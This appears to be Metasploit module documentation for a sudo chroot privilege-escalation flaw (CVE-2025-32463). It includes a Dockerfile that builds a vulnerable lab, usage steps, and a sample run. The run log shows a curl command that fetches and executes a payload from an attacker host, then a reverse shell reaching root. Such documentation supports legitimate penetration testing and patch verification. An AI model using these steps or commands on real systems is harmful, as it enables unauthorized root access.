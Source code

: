 ## Vulnerable Application


Sudo before version 1.9.14-1.9.17p1 allows user to use `chroot` option, when executing command. The option is intended to run a command with user-selected root directory (if sudoers file allow it). Change in version 1.9.14 allows resolving paths via `chroot` using user-specified root directory when sudoers is still evaluating. This allows the attacker to trick Sudo into loading arbitrary shared object. As target shared object, Name Service Switch (NSS) operations are trigged before resolving sudoers, but after running `chroot` syscall. The module requires existing session and requires compiler on target machine (e.g. `gcc`). 

## Installation

1. Create `Dockerfile`:
```
# ----- Dockerfile -----
FROM ubuntu:24.04

ENV DEBIAN_FRONTEND=noninteractive

RUN apt-get update && \
    apt-get install -y build-essential wget libpam0g-dev libselinux1-dev zlib1g-dev \
                       pkg-config libssl-dev git ca-certificates && \
    rm -rf /var/lib/apt/lists/*

WORKDIR /opt
RUN wget https://www.sudo.ws/dist/sudo-1.9.16p2.tar.gz && \
    tar xzf sudo-1.9.16p2.tar.gz && \
    cd sudo-1.9.16p2 && \
    ./configure --disable-gcrypt --prefix=/usr && make && make install

RUN useradd -m -s /bin/bash msfuser

USER msfuser
WORKDIR /home/msfuser

CMD ["/bin/bash"]
```
1. `docker build -t sudo-chroot .`
1. `docker run -it --rm --privileged sudo-chroot`


## Verification Steps


1. Start msfconsole
2. Get existing session to low-privileged user
3. Do: `use linux/local/sudo_chroot_cve_2025_32463`
4. Set target payload
5. Do: `set lhost [attacker IP address]`
6. Do: `set lport [attacker port]`
7. Do: `run`

## Options

### COMPILE

Option setting if compile target payload on the target.

### COMPILER

Option setting the compiler to compile target payload.


## Scenarios

```
msf6 exploit(linux/local/sudo_chroot_cve_2025_32463) > run verbose=true 
[*] Command to run on remote host: curl -so ./YoGpAgWbO http://192.168.168.128:8080/Q7JGOkCYlO14PhxIQeJRIQ;chmod +x ./YoGpAgWbO;./YoGpAgWbO&
[*] Fetch handler listening on 192.168.168.128:8080
[*] HTTP server started
[*] Adding resource /Q7JGOkCYlO14PhxIQeJRIQ
[*] Started reverse TCP handler on 192.168.168.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Running version 1.9.16.2
[*] Writing '/tmp/Xw1XwkTPC' (117 bytes) ...
[*] Max line length is 65537
[*] Writing 117 bytes in 1 chunks of 420 bytes (octal-encoded), using printf
[*] Creating directory /tmp/ugJjJFSc9q
[*] /tmp/ugJjJFSc9q created
[*] Max line length is 65537
[*] Writing 216 bytes in 1 chunks of 763 bytes (octal-encoded), using printf
[*] Client 192.168.168.140 requested /Q7JGOkCYlO14PhxIQeJRIQ
[*] Sending payload to 192.168.168.140 (curl/8.14.1)
[*] Transmitting intermediate stager...(126 bytes)
[*] Launching exploit...
[*] Sending stage (3090404 bytes) to 192.168.168.140
[+] Deleted /tmp/Xw1XwkTPC
[+] Deleted /tmp/ugJjJFSc9q
[*] Meterpreter session 10 opened (192.168.168.128:4444 -> 192.168.168.140:41672) at 2025-07-10 16:12:58 +0200

meterpreter > sysinfo 
Computer     : kali.kali
OS           : Debian  (Linux 6.12.25-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
```
